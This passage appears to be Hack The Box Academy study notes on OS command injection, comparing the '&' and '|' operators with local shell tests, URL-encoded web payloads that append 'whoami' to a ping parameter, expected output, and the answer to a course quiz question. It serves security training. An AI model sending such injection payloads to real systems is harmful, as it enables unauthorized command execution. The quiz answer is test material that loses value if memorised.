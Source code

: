 **Local Testing:**
```bash
21y4d@htb[/htb]$ ping -c 1 127.0.0.1 & whoami
21y4d
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.074 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
```

**Notice:** `whoami` output appears **before** ping results due to background execution.

**Web Payload:**
```http
ip=127.0.0.1%26whoami
```

**Expected Behavior:**
```
www-data
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.074 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
```

### Pipe Operator (|)

**Characteristics:**
- **Pipes output** of first command to second
- **Only second command output** typically visible
- **Output redirection** - first command feeds second

**Local Testing:**
```bash
21y4d@htb[/htb]$ ping -c 1 127.0.0.1 | whoami
21y4d
```

**Analysis:** Only `whoami` output shows because:
1. `ping` output is piped to `whoami`
2. `whoami` doesn't process stdin, so ignores ping output
3. `whoami` executes and shows its own output

**Web Payload:**
```http
ip=127.0.0.1%7cwhoami
```

**Expected Behavior:**
```
www-data
```

**Answer to HTB Academy Question:**
> **Which operator only shows the output of the injected command?**

**Answer:** **Pipe (`|`)** - Only displays the output of the second (injected) command.

---